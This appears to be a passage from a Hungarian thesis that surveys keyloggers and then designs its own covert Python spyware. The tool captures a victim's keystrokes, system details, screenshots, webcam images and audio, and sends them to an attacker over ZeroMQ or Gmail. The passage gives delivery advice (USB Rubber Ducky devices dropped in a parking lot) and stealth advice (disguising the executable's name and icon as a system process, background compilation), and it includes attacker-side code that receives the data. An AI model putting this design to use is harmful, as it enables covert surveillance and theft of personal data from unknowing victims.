A kontextustól függően a kifejlesztett keylogger globális vagy lokális horgot valósíthat meg a billentyűleütések eseményeinek lekérésére. A globális horgok az egész rendszerre kiterjedő üzeneteket, míg a lokális horgok az alkalmazás specifikus üzeneteket figyelik. Ezekkel az összekapcsolt üzenetekkel a támadó elolvashatja a beírt billentyűleütéseket, módosíthatja azok adatait, sőt teljesen megszakíthatja az üzenetáramlást. Azonban általában a keyloggerek csak a billentyűleütés adatait olvassák és továbbítják az üzenetet a lánc következő tagjának.

Az alacsony, kernel szintű keyloggerek általában ``rootware''-ként valósulnak meg \cite{butler2006r2}, ``rootkit'' és ``spyware'' kombinációjaként. A rootkit egy olyan program vagy eszközkészlet, amely titokban fut egy fertőzött gépen annak érdekében, hogy hosszú távú, észrevétlen hozzáférést biztosítson a rendszer gyökeréhez a támadó számára. Az elrejtettség általában kiemelt fontosságu a rootkit számára, mivel célja az operációs rendszer magjának (kernel) állandó módosítása. A spyware olyan szoftver, amely felhaszálói adatokat gyűjt az áldozat beleegyezése nélkül. Ezt a két kifejezést használva a rootware keyloggerek olyan rejtett szoftverek, amelyek bekapcsolódnak a létfontosságú rendszer szokásos munkameneteljébe, hogy összegyűjtsék és továbbítsák a felhasználói billentyűleütéseket az áldozat tudta és beleegyezése nélkül.

A keyloggerek négy fő kategóriára oszthatók: hardver, wireless, akusztikus és szoftver \cite{ahmed2014survey}. Bár ezeknek különböző a használati módjuk és az információ szerzési módszereik, egy közös dolgon osztoznak: lementik az ellopott információt vagy adatot egy log állományba.

\subsection{Wireless keylogger}
A wireless keylogger kihasználja a Bluetooth interfészeket, hogy a rögzített adatokat 100 méteres körzetben továbbítsa. Elsődleges célja az átvitt csomagok lehallgatása wireless billentyűzetről. Hátránya, hogy szükséges egy fogadó/antenna relatív közel a célpont munkakörnyékéhez.

\subsection{Hardver keylogger}
A hardver keylogger egy olyan fizikai eszköz, amely a billentyűzet és a számítógép között helyezkedik el. Kétféle csatlakozási módszer létezik: a keyloggerek közvetlenül összekapcsolhatók a billentyűzet és a számítógép között. A második módszer nem igényel fizikai kapcsolatot a számítógéppel, hanem egy keylogger áramkör telepítését igényli a billentyűzetbe. Ennek a módszernek az az előnye, hogy a felhasználók nem figyelhetik fizikailag a keyloggert.

\subsection{Szoftver keylogger}
A szoftver keylogger elfogja a billentyűzet és az operációs rendszer mentén haladó adatokat. Gyűjti a billentyű karaktereit egy állományba, majd továbbítja a támadónak, aki telepítette a keyloggert.

\subsection{Akusztikus keylogger}
A hardware keylogger-rel ellentétben az acoustic keylogger elemzésekor rögzíti az egyes billentyűleütések hangját. Különleges felszerelés szükséges a felhasználó gépelés hangjának meghallgatásához. Parabolikus mikrofonokat használnak nagy távolság alapuló rögzítésre, ezért ezt a mikrofont arra használják, hogy a billentyűzet hangját 30 méter távolságból vegye fel a célzott helyről.

\section{Keyloggerek elleni védelem}
Mivel létezik a rossz akarat, a kártevés akarata, ezért szükség van ezek kivédésére is. A rossz indulattal használt keyloggereket nagymértékben ellenőrizték és tettek ellenük, de napjainkban egyre több ilyen szoftver készül. Ezért lehetetlen az összeset megakadájozni. A rosszindulatú programok észlelését gyakran satikusan vagy dinamikusan nézik  \cite{wood2010keyloggers}. A statikus észlelés magába foglalja az aláírás alapú mintázatfelismerést, míg a dinamikus észlelés viselkedésbeli és működési alapú megfigyelést jelent. A statikus felismeréshez rosszindulatú programok észlelésére van szükség a rendszer figyelése érdekében, hogy a felismerhető rosszindulatú aláírásokat vagy `checksum'-okat kiszűrje. Ezek az aláírások lényegében oszlyan gépi utasítások szekvenciái, amelyek megfelelnek a program által a gazdagépen végrehajtott gyanús tevékenységnek. Két jelentős probléma merül fel ezzel a technikával:
\begin{itemize}
\item a rosszindulatú programfelismerőt folyamatosan frissíteni kell az új rosszindulatú programokkal
\item nincs védelem a rosszindulatú programok ellen, amelyek aláírása nem ismert
\end{itemize}
Az utóbbi a rosszindulatú keyloggerekre erősen vonatkozik, mivel nincs egyedi aláírásuk. Ezért dinamikus detektálási technikákat kell alkalmazni a rosszindulatú keyloggerek észlelésére.

\subsection{Aláírás alapú anti keylogger}
Az aláírás alapú anti keyloggerek olyan alkalmazások \cite{tuli2013system}, amelyek a telepített fájlok vagy DLL-ek, valamint az általa készített beállításjegyzék alapján azonosítják a keyloggereket. Bár sikeresen azonosítja az ismert keyloggereket, nem tudja azonosítani azokat a keyloggereket, amelyeknek aláírása nincs tárolva az adatbázisban.A virusirtó szoftverek többsége ezen a megközelítésen alapuló eljárást alkalmazzák.

\subsection{Horog alapú anti keylogger}
A Windows rendszereken egy horog folyamat a $SetWindowsHookEx$ függvényt használja, ugyanazokat a funkciókat, mint a horog alapú keyloggerek \cite{tuli2013system}. Ezt arra használják, hogy figyelemmel kísérjék a rendszer bizonyos típusú eseményeit, például billentyűleütés vagy egérkattintás. Azonban a horog alapú anti keyloggerek blokkolják a vezérlés ezen átadását egyik horog eljárásról a másikra. Ennek eredményekét a keylogger szoftver nem generál naplózást a billentyűleütés elfogásakor. Bár a horog alapú anti keyloggerek jobbak mint az aláírás alapú anti keyloggerek, de ezek továbbra sem képesek megállítani minden keyloggert.


\chapter{A rendszer specifikációi és architektúrája}\label{sec:specs_and_arch}
%virtualis gepek -> meresek, hany klienst bir el
%kiserletek, grafikonok

\section{Felhasználói követelmények}
%user needs
%what the user does with the system | activities that users must be able to perform
A keylogger, a fejlesztett alkalmazás, feltételezi, hogy valamilyen módon az áldozathoz kerül, aki használja. Miután az alkalmazás begyűjti az adatot, azt elküldi a támadónak. Ennek értelmében rendszernek két típusú felhasználója van: egy aktív és egy passzív. \ref{fig:specifickeylogger} ábra mutatja az általunk fejlesztett keylogger usecase diagramját.
\begin{figure}[H]
\centering
\includegraphics[width=400pt]{../images/specific\ keylogger}
\caption{A keylogger rendszer usecase diagramja}
\label{fig:specifickeylogger}
\end{figure}

A passzív felhasználó az ábrán levő áldozatot (Target) jelképezi. A szoftver az áldozat tudta nélkül kell fusson az operációs rendszeren, miközben az áldozat folyamatosan használja a számítógépét. Használat alatt karakterek bevitelét értjük a billentyűzeten keresztül. Az egér mozgása nem kerül monitorizálásra.

A támadó (Hacker) tölti be az aktív felhasználó szerepkörét. Legelső lépése a szoftver eljutatása az áldozat gépére. Az eljuttatáshoz használható a USB Rubber Ducky, amiből többet is lehet készíteni és elszórni például egy autó parkolóban, mert egy kíváncsi természetű ember mindig akad. A USB eszközök elszórása után a Hacker feladata, hogy elindítsa a szoftver rá eső részét, hogy a kapcsolat létre tudjon jönni.

A kapcsolat létrejötte után, a támadónak lehetősége van megtekinteni az áldozat rendszerének az információit, mint például a számítógép neve, processzor információ, bejelentkezett felhasználó felhasználóneve, a használatban levő operációs rendszer neve, verziószáma és arhitektúrája. Ha az áldozat használta a billentyűzetet, akkor a támadó megtekintheti az áldozat által lenyomott billentyűket karakterek vagy szavak formátumában.

A támadónak lehetősége van további adatszerzésre: képernyőkép (screenshot), webkamerakép (webcam picture) és hangfelvétel (audio recording) formátumban.

Ha a támadó úgy látja jónak, lehetősége adódik a kapcsolat felbontására. A kapcsolat felbontása után a billentyűzet eseményei az áldozat rendszerére mentődnek el egy állományba, és e-mail küldésével (állítható időközönként, például óra) továbbítja ezt az állományt a támadónak egy képernyőképpel együtt.

Az e-mail küldési folyamat csak addig működik, amíg az áldozat észre nem veszi, hogy egy általa nem kívánt szoftver fut a gépén, jelen esetben a keylogger, és azt szándékában áll leállítani. Ekkor leáll az adatgyűjtés és az adatok tövábbítása is.

\section{Rendszer követelmények}
%what the system “shall do.”
%can my pc run it?

\subsection{Funkcionális követelmények} %milyen inputra milyen output
A Hacker szemszögéből három alkalmazást különíthetünk el: Target app, Hacker app és GUI. \ref{fig:startupdia} ábra szemlélteti a rendszer működési folyamatát.

A Target app gépi kódra való lefordítása során figyelembe kell venni, hogy ez az alkalmazás a háttérben, feltűnés mentesen kell fusson. A futtatható fájlnak be lehet állítani az ikonját és a nevét is. Mivel minden futó program látható a folyamatok között az operációs rendszeren, ezért ha van egy ideális ikonja, és ha a neve megegyezik egy, az operácós rendszer által futtatott folyamat nevével, akkor kevésbé lesz feltűnő a Target számára, főleg ha ez el van rejtve valahol a folyamatok között. A taskmanagerben esetleg látható, de a felhasználók zöme nem követi ezt.

A támadó gépén levő alkalmazás és az áldozat gépén levő alkalmazás kapcsolódása után, a támadónak igénye lehet használni a GUI-t és a parancssoron megjelenő menüt. Amint a kapcsolat létrejött a GUI automatikusan elindul, és valós időben adódnak hozzá az adatok.
%rendszer moduljai kozotti interakciok
\begin{figure}[H]
\centering
\includegraphics[width=400pt]{../images/startup\ diagram}
\caption{Működési folyamat}
\label{fig:startupdia}
\end{figure}

A GUI segít a megszerzett adatok megjelenítésében, amelyek a Hacker számítógépén el lesznek mentve külön állományokba. Itt három opció lehetséges: rendszerinformáció (PC Information) megtekintése, karakterek (Characters), illetve a karakterekből alkotott szavak (Words) megtekintése. Az alábbi opciókat gombnyomásra előhívhatja a felhasználó.

A rendszerinformáció megtekintésében a felhasználónak szükséges rákattintania a $PC Information$ gombra. Ez által egy új ablak ugrik fel, ahol az adatok megjelenítésre kerülnek. Az adatok az elmentett fájlból kiolvasva kerülnek az ablak megjelenítő részébe. Ez az ablak bármikor előhívható vagy bezárható, amíg a GUI alkalmazás fut.

A karaktereket egy másik elmentett állományból olvassa ki, és jeleníti meg egy legördülő listában, ha létezik ez az állomány, különben egy üres lista jelenik meg. A szavakat is meg lehet nézni, amelyek úgy épülnek fel, hogy a karakterek egy karakterláncba fűződnek amíg egy $ENTER$ (két ascii kód határozza meg CR/LF 10 + 13) vagy egy $SPACE$ (ascii kódja 13) elválasztó karakter nem következik. Például legyen egy karakterlánc: `p' `i' `r' `o' `s' `32' `a' `l' `m' `a' `13', a 32 jelenti a szóköz karaktert ascii kódját és addig osszeállítja a ``piros'' szót. A 13 jelenti az újsor karaktert ascii kódját, és addig felépíti az ``alma'' szót.

A táblázat \ref{tab:karlanc} egy példát szemléltet a szavak felépítésére. Az első sor tartalmazza a bemenetet, és a fent leírtak alapján a második két sor (piros és alma) jelenti a kimenetet.
\begin{table}[H]
%\centering
\caption{Példa szóépítésre}
\label{tab:karlanc}
\hspace{7em}
\begin{tabular}{|c|c|c|c|c|c|c|c|c|c|c|}
\hline
p&i&r&o&s&32&a&l&m&a&10\\
\hline
\end{tabular}
\vspace{5pt}

\hspace{7em}
\begin{tabular}{|c|c|c|c|c|}
\hline
p&i&r&o&s\\
\hline
\end{tabular}
\vspace{5pt}

\hspace{7em}
\begin{tabular}{|c|c|c|c|}
\hline
a&l&m&a\\
\hline
\end{tabular}
\end{table}
Megjelenítésüket a karaktereknek és a szavaknak lehet váltogatni tetszés szerint a $Characters$ és a $Words$ gombokat alkalmazva.

Mivel a GUI egy egyedül álló alkalmazás, ezért be lehet zárni, és nem befolyásolja az adatgyűjtést.

A parancssoron (console vagy terminal) megjelenő menü arra szolgál, hogy a Hacker alkalmazás kérést küldjön a Target alakalmazás fele. A kérések a következők lehetnek: képernyőkép (screenshot), webkamerakép (webcam picture), hangfelvétel (audio recording) és kapcsolat bezárás. A kérés közben megjelenik, a folyamat ütemezési információja. Például, ha egy képernyőképet kér a Hacker, akkor megjelenik a folyamat kezdéséhez járuló szöveg, és a befejezésénél a végéhez járuló szöveg, hogy követhető legyen az adatátvitel, lásd ábra \ref{fig:logging}. A menüpontokat számok formátumban kell megadni a parancssoron:
\begin{itemize}
\item 1 = screenshot
\item 2 = webcam picure
\item 3 = audio recording
\item 4 = connection closure
\end{itemize}
\begin{figure}[H]
\centering

\includegraphics[width=400pt]{../images/tempsnip}
\caption{Kommunikáció követése a parancssoron}
\label{fig:logging}
\end{figure}

A képernyőkép készítése során, a kép minősége az áldozat képernyőjének a felbontásához igazódik. Például, ha a képernyő felbontása 1920x1080, akkor a pixelek száma a képen 2073600 lesz.

A webkamerakép előállításához az áldozatnak kell legyen webkamerája csatlakoztatva a számítógépéhez. A webkamerák többsége ledekkel ellátott, tehát ha a kamera működési fázisban van, akkor kigyúlnak a ledek rajta. Ezért a webkamerakép készítése kockázatos, mert az áldozatban gyanakvást kelthet.

A hangfelvétel készítéséhez az áldozatnak szüksége van egy működőképes mikrofonra. A hangfelvétel minősége 44100Hz. A felvétel időtartamát, másodpercbe mérve, meg lehet változtatni tetszés szerint, de ezt az áldozathoz való juttatás előtt kell megtenni. Alapértelmezetten tíz másodperces felvétel készül.

Az adatok begyűjtésére szükséges az internet. A hálózatot használó kommunikáció a későbbiekben részletezve lesz.

\subsection{Nem funkcionális követelmények}
A szoftvert Windows, Linux és Darwin rendszerekre tervezzük. A rendszeren szükséges telepíteni a python 3.x verzióját, mivel olyan modulok és szintakszisok vannak használatban, amelyeket a python 2.x nem ismer. Például a formázott karakterláncot rövidebben lehet kivitelezni úgy, hogy a karakterlánc elejére egy f betű kerül és kapcsos zárójelekbe kerülnek a változónevek. A python 2.x verziójával ezt külön fuggvénnyel lehetett megvalósítani.

Ez egy olyan szoftver, amelyet törvényes és törvénytelen dolgokra is lehet használni. Törvényesen például monitorizálni a céges alkalmazottak munka időszakában lebonyolított tevékenységeket. Törvénytelen például, ha valaki arra használja, hogy ellopjon bizalmas információkat személyektől. Ez a használón múlik, hogy melyik utat választja.

\begin{multicols}{2}
\begin{itemize}
\item pynput = 1.6.8
\item pyautogui
\item pyaudio
\item wave
\item urllib
\item zmq = 21.0.1
\item base64
\item opencv
\item getpass
\item os
\item sys
\item threading
\item datetime
\item smtplib
\item email
\item imaplib
\item shutil
\item platform
\item tkinter
\item logging
\item pyinstaller
\item http.server
\end{itemize}
\end{multicols}
A \emph{pynput} modul a billentyűzet és az egér eseménykezelését teszi lehetővé. Egy régebbi verzióját kell használni (1.6.8), mert a legújabb (1.7.2) nem kompatibilis a fordító programokkal.

A \emph{pyautogui} modullal képernyőképet lehet készíteni, és azt elmenti egy fájlba a rendszeren. A végrehajtásához szükséges, hogy a felhasznéló képernyőképet tudjon készíteni önmagénak.

A \emph{pyaudio} és a \emph{wave} modulok a hangfelvétel készítésében használandók. A \emph{pyaudio} egy listát állít elő a hanganyaggal, ahogyan azt ábrázolni lehet binárisan, míg a \emph{wave} ebből a lisából egy $.wav$ kiterjesztésű állományt készít. Ehez szükséges, hogy a felhasználónak legyen mikrofonja, ami csatlakoztatva van a számítógéphez.

Magasabb szinten használt kommunikációra a ZeroMQ protokollt használtuk, pythonban ez a \emph{zmq} modul használatát jelenti. Itt két kapcsolat szükséges: egy publisher (PUB) | subscriber (SUB) és egy request (REQ) | reply (REP).

A \emph{urllib} modul segítségével kéréseket küldhetünk a hálózaton.

A \emph{base64} modul használatával szövegtitkosítást lehet végezni, mivel a base64 szövegtitkosító agoritmust tartalmazza.

Az \emph{opencv} modul képek vagy videók feldolgozásában használható, például webkamerakép készítésére.

A \emph{getpass}, \emph{os}, \emph{sys}, \emph{shutil} és \emph{platform} modulok a rendszerfüggvények elérését biztosítja. A rendszerinformációit függvények használata, mint például a processzor specifikációi, a bejelentkezett felhasználo felhasználóneve, a számítógép neve, a rendszer verziószáma stb.

A \emph{threading} modul segítségével új, párhuzamos szálakat hoszhatunk létre. Ez segít több feladat elvégzésében egymást nem blokkolva.

A \emph{datetime} modullal le lehet kérni az aktuális időt, olyan formátumban amilyenben a használó szeretné. %https://www.programiz.com/python-programming/datetime/strftime

Az \emph{smtplib}, \emph{imaplib} és \emph{email} modulok segítsígével lehet kapcsolódni a gmail szolgáltatóhoz üzenet küldés vagy fogadás céljából. Az \emph{imaplib} modullal lehet kapcsolatot teremteni olvasásra, míg az \emph{smtplib} modullal írásra, azaz küldésre. Az \emph{email} modul tartalmazza azokat az osztályokat, amelyek szükségesek egy email objektum létrehozásában és kódolásában.

A \emph{tkinter} modul a GUI elkészítésére használandó, ez felel a megjelenítésben.

A \emph{logging} modul segítségével visszajelzéseket adunk a szoftvertől a felhasználónak, hogy lehessen követni az aktuális feladat menetét. Ehez szükséges egy $logging.conf$ állomány, maely béállítja a loggolási opciókat.

A \emph{pyinstaller} modul egy fordító program, amely python kódból futtatható fájlt készít. Lefordításra csak a kliens kerül, mert azt kell az áldozat rendszerére telepíteni, úgy, hogy a háttérben fusson. Ezt be lehet állítani a $w$ opcióval windows és OS X rendszereken, míg *NIX rendszereken nem veszi számításba ezt az opciót. A $onefile$ opció összesűríti egy futtathatóvá, ez által lehetővé teszi, hogy ne kelljen más szükséges állományokat is telepíteni az áldozat rendszerére. Be lehet állítani a futtatható fájl nevét ($name$ opció) és ikonját is ($icon$ opció).

%Teljesítmény...

%Karbantarthatóság...

\chapter{A részletes tervezés}\label{sec:plan}
%dobozok | arhitektura | blokk diagram
%kommunikacios module
%beszelni a digram dobozairol

A szoftvert két nagy részre lehet osztani: Hacker oldal és Target oldal. A Hacker oldalhoz tartozik a GUI is. A két komponens mellett megtalálható egy kissebb rész (Utils), amely hasznos függvények implementációit tartalmazza úgy a Hacker, mint a Target oldalnak.
\begin{figure}[H]
\centering
\includegraphics[width=400pt]{../images/component\ diagram}
\caption{Komponens diagram}
\label{fig:compdia}
\end{figure}

\section{Hacker oldal}\label{subsec:server}
Előszőr, hogy működjön a gyakori operációs rendszereken meg kell nézni, hogy melyiken futtatjuk. Ezt a platform modul system függvény segítségével tudjuk megnézni:

\lstinputlisting[language=Python, firstline=13, lastline=21]{../src/TCP_Server.py}

Ha nem a három operációs rendszer közé tartozik, akkor kilép a program. Itt a rendszer neve meghatározza a $temp\_path$ változót. Ez a változó tartalmazza a temporális könyvtárat az operációs rendszeren, hogy a lenyomott billentyűket eltudja menteni a Target számítógépén. A temporális mappa Linux és Darwin (MacOS) rendszereken megegyező, míg Windows rendszeren különbözik.

A Hacker oldalon három osztály talalható (Communication, Keylogger, MenuHandler) és ehhez még hozzácsatolódik a GUI rész is, lásd ábra \ref{fig:serverclassdia}. A Hacker alkalmazás futását nem befolyásolja a GUI működése.
\begin{figure}[H]
\centering
\includegraphics[width=400pt]{../images/serverclass diagram}
\caption{Hacker oldali osztály diagram}
\label{fig:serverclassdia}
\end{figure}

\subsection{GUI}\label{subsubsec:gui}
A GUI a tkinter modul használatával készült. A tkinter modul csak a fő szálon engedi az általa létrehozott objektumok futását.
A GUI akkor lép működésbe, amikor Target oldal csatlakozott a Hacker oldalhoz, és addig funkcionál, amíg a Hacker be nem zárja. Van egy $Date\ \&\ Time$ és egy $Characters$ mezője. Az első oszlop tartalmazza az idő béjeget, hogy mikor volt egy bizonyos karakter megnyomva. A második oszlop a lenyomott karaktereket taartalmazza kezdésben. Három gomb találhato az ablak tetején: $PC\ Information$, $Characters$ és $Words$.
\begin{figure}[H]
\centering
\includegraphics[width=400pt, height=435pt]{../images/GUI\ final}
\caption{GUI ablak}
\label{fig:gui}
\end{figure}

\subsection{CommunicationHacker osztály}\label{subsubsec:serverclass}
A CommunicationHacker osztály megvalósít két kapcsolatot a ZeroMQ protokollt használva. A két kapcsolat a következő: publisher (PUB) | subscriber (SUB) és request (REQ) | reply (REP). A PUB | SUB egy kapcsolaton keresztül történik a Target számítógépének információ és a lenyomott billetyű karaktereinek átvitele. Ez egy egyoldali kommunikáció, mert a PUB a Target oldal és erre feliratkozik (subscribe) a Hacker oldal. Az egyoldali kommunikáción csak a Target oldal küld aldatot és a Hacker oldal fogadja azokat. Itt a Hacker oldal vár egy üzenetet, hogy blokkolódjon amíg a Target nem kapcsolódik. Ha a Hacker oldal megkapja az ``OK'' üzenetet, akkor fut tovább a program.

A REQ | REP egy kétoldali kommunikáció, mert a Hacker oldal küld kéréseket a Target oldal fele, és a Target oldal elvégzi a kért műveleteket és az eredményt elküldi a Hacker oldalnak. Ezen a kommunikáción van megvalósítva a Hacker oldali és a Target oldali menü kezelése.

A háttérben a ZeroMQ protokoll TCP kapcsolatot hoz létre, de nem kell foglalkozni a csomagkezeléssel.

\subsection{KeyloggerHacker osztály}\label{subsubsec:keyloggerclass}
A KeyloggerHacker osztályt a $Thread$ osztályból van származtatva, mert egy külön szálon kell fusson a GUI miatt. A GUI csak a fő szálon van engedélyezve, mert a tkinter modul nem engedi, hogy a létrehozott objektumok mellékszálakon fussanak. Ennek az osztálynak öt attribútumja van: a létrejött kapcsolat a Hacker oldal és a Target oldal között, a GUI, gmail cím, a hozzá tartozó jelszó és a gmail szolgáltató ip címe. A gmail rendelkezik egy szolgáltatóval, amely lehetővé teszi a kódból való levél küldését és fogadását (a fogadás külön szolgáltatót használ). A $connection$ és a $gui$ paraméterek egy-egy osztályt várnak, ezért kapcsolatot és a GUI-t ellenőrizni kell, hogy jó osztály került-e átadásra.

A $KeyloggerHacker$, a fő osztály, amelyre épül a szoftver. Mivel külön szálon fut, ezért felül kell írni a $run$ függvényt, amelyben implementálva van a billentyűzet gombjai lenyomásának a kezelése és az e-mail fogadása. Amíg a kapcsolat él a Communication modulban, addig azon keresztül küldi a lenyomott karaktereket, amit elment a log.csv állományba a Hacker oldalon, hogy a későbbiekben újra megtekinthető legyen. A log.csv állomány formátuma lenyomott billentyű ideje, karakter. Ahol az idő ``nap/hónap/év $|$ óra:perc:másodperc'' formátumu.

A kapcsolat megszakadhat, ha például a tűzfal (firewall) megtíltja a használt porton való kommunikációt, igy egy biztonságosabb kommunikációt kell használni, esetünkben ez az e-mail használatát jelenti.

A Hacker oldalon és a Target oldalon egy modul kommunikál egymással. A Hacker oldalon létrehozza az egyoldalu kommunikációt, és vár a Target válaszára. A kommunikáció kell tartalmazza a Hacker oldali ip címet és a két portot, amiket a Target oldalon kell megadni. A Hacker oldalon csak a megnyitott portok a lényegesek, amelyeken kommunikál az applikáció. Erre terveztünk egy saját kis csomagot, lásd táblázat \ref{tab:protocol}:
\begin{table}[H]
\centering
\caption{Csomag}
\label{tab:protocol}
\begin{tabular}{|c|c|c|}
\hline
\textbf{type} & \textbf{time} & \textbf{information} \\
\hline
5 & 11 & $2^{16}-1-5-11$ \\
\hline
\end{tabular}
\end{table}
A $type$ mező megmondja, hogy milyen típusu adat fog jönni az $information$ mezőben. Ez 5 bájt lehet. Előfodulható lehetőségek:
\begin{itemize}
\item chars - egy karakter
\item image - egy képernyőkép bájtsorozata
\item wcpic - egy webkamera kép bájtsorozata
\item audio - egy audio állomány bájtsorozata
\end{itemize}
A $time$ mezőben egy időbéjeg található, amely megmondja, hogy a csomag mikor érkezett. Ez 11 bájt lehet. Formátuma: ``nap\_óra\_perc\_másodperc''.\\
Az $information$ mezőben vannak azok az adatok amelyeket a Hacker oldal fel kell dolgozzon. A mező mérete alkalmazkodik a háttérben megvalósított TCP méretével.

A továbbiakban az adatok feldolgozásra kerülnek, ha a kapcsolat még nem zárult be. Az adatok beíródnak egy-egy állományba. Ha az $infomation$ mezőben az ``Error'' szöveg érkezik, akkor sikertelen volt az adatküldés, és a program egy üzenetet ír ki a vezérlőablakra, hogy tudassa a sikertelen folyamatot. A $data$ változó tartalmazza a protokoll által található információt.
\begin{lstlisting}[language=Python]
if data[0] == "chars":
	write_file(os.path.join(path, filename), data[1:])
	if gui_running:
		self.gui.insert_data(data[1:])
	elif data[0] == 'close':
		self.connection.socket_stream.close()
		logger.info("Connection closed!\n")
		break
\end{lstlisting}

Ha a kapcsolat felbomlik, akkor e-mail-en keresztül lesz továbbítva az adat csatolmányban. Ahoz, hogy írni és olvasni is tudjunk e-mail-t python kódból, a google fióknál be kell legyen kapcsolva a ``Less secure app access''. A gmail fióknál pedig a következőt kell engedélyezni: Settings $\rightarrow$ See all settings $\rightarrow$ Forwarding and POP/IMAP $\rightarrow$ IMAP access $\rightarrow$ Enable IMAP.
\begin{figure}[H]
\centering

\includegraphics[width=400pt]{../images/lesssecureapp}
\caption{Konfigurációs beállítások a Google fióknál}
\label{fig:IMAPsettings}
\end{figure}
\begin{figure}[H]
\centering

\includegraphics{../images/enableIMAP}
\caption{Gmail beállítás}
\label{fig:IMAPsettings}
\end{figure}

Előszőr csatlakozni kell a megadott gmail címhez. Ez után megnézzük, hogy jött-e olyan e-mail, amit még nem láttunk, ha igen, akkor ellenőrizzük, hogy a saját gmail címünkről jött-e. Ha minden feltétel teljesül, akkor megnyitjuk az e-mail-t és letöltjük a csatolmányokat. Itt két csatolmány érkezik: egy képernyőkép és egy log állomány (ábra \ref{fig:emailresult}), amelyben a lenyomott billentyűk vannak naplózva. Ezt a folyamatot ismételjük addig, amíg nincsen hiba. Hiba alatt a következőket lehet érteni: nem engedi a csatlakozást a gmail szolgáltató, nem tudja megnyitni az elküldött csatolmányokat.
\begin{figure}[H]
\centering

\includegraphics[width=400pt]{../images/emailresult}
\caption{Az elküldött e-mail eredménye}
\label{fig:emailresult}
\end{figure}

A $get\_attachments$ függvény segítségével tölti le a csatolmányokat, amelynek egy paramétere van: az üzenet. Az üzenet tartalmazza a teljes üzenetet bájtokban, tehát, hogy kitől jött az üzenet, kinek küldték, a téma, maga az üzenet törzse, a csatolmányok. A függvény ezen az üzeneten megy végig és ha talál csatolmányt azt letölti, más szóval megnyit egy állományt binárisan és beleírja a tartalmát.
\begin{lstlisting}[language=Python]
def get_attachments(self, msg):
	for part in msg.walk():
	if part.get_content_maintype() == 'multipart':
		continue
	if part.get('Content-Disposition') is None:
		continue

	filename = part.get_filename()
	if bool(filename):
		with open(os.path.join(temp_path, filename), "wb") as handler:
			handler.write(part.get_payload(decode=True))
\end{lstlisting}

\subsection{MenuHandlerHacker osztály}\label{subsubsec:menuhandler}
A $MenuHandler$ osztály segítségével más feladatot is adhatunk a Target oldalnak a billentyűzet naplózása mellett. Ez az osztály is a $Thread$ osztályból származik, mert egy külön szál kell amiatt, hogy ne blokkolódjon az adatfeldolgozás, mivel I/O műveleteket végez. Az I/O  Ennek az osztálynak egy attribútumja van: a kapcsolat. Ez a kapcsolat fogja megvalósítani az opciók küldését a kliensnek. Itt négy opció lehet:
\begin{itemize}
\item 1) Take screenshot - képernyőkép
\item 2) Webcam picture - webkamerakép
\item 3) Record audio - audio felvétel
\item 4) Exit - bezárja a kapcsolatot
\end{itemize}

Amint látszik a menü a parancssoron (ábra \ref{fig:logging}), meg kell jelenjen egy vezérlő, ami mutatja, hogy hova kell írni az opciókat (vezérlő: ``$>>>$'').
Természetesen le van kezelve, ha nem 1-től 4-ig adunk meg számokat, akkor egy üzenetet ír ki: ``Wrong option!'', vagy ha csak lenyomjuk az ENTER karaktert, akkor egyszerűen új sorba ugrik, és kiírja a vezérlőt.

Itt kezelve van a kérésre visszaküldött adat:
\begin{lstlisting}[language=Python]
if data[0] == "image":
	if data[2] == 'Error':
		logger.info("Error while taking screenshot!")
	else:
		with open(f'./screenshot_{data[1]}.png', 'wb') as handler:
			handler.write(data[2])
			logger.info('Done')
elif data[0] == "wcpic":
	if data[2] == 'Error':
		logger.info("Error while taking webcam picture!")
	else:
		with open(f'./webcam_{data[1]}.png', 'wb') as handler:
			handler.write(data[2])
			logger.info('Done')
elif data[0] == 'audio':
	if data[2] == 'Error':
		logger.info("Error while recording audio!")
	else:
		with open(f'./audio_{data[1]}.wav', 'wb') as handler:
			handler.write(data[2])
			logger.info('Done')
\end{lstlisting}

\section{Target oldal}\label{subsec:client}
A Target oldal is három osztályt tartalmaz, mint a Hacker oldal, ha nem vesszük számításba a GUI-t, mert a GUI egy különálló alkalmazás, csak a Hacker oldal fogja aktíválni, lásd ábra \ref{fig:clientclassdia}.

Előszőr, meg kell nézni, hogy milyen rendszeren van futtatva. Ez után létre van hozva a ``Communication'' osztály, amelynek négy attribútumja van: egy ip cím, két port (egy a PUB SUB kapcsolatnak és egy a REQ REP kapcsolatnak) és a ZeroMQ által létrehozott kontextus. Példányosításkor az ip címnek egy helytartót (*) kell megadni, vagy a lokális ip címet.
\begin{figure}[H]
\centering
\includegraphics[width=400pt]{../images/clientclass diagram}
\caption{Target oldali osztály diagram}
\label{fig:clientclassdia}
\end{figure}

\subsection{CommunicationTarget osztály}\label{subsubsec:clinetclass}
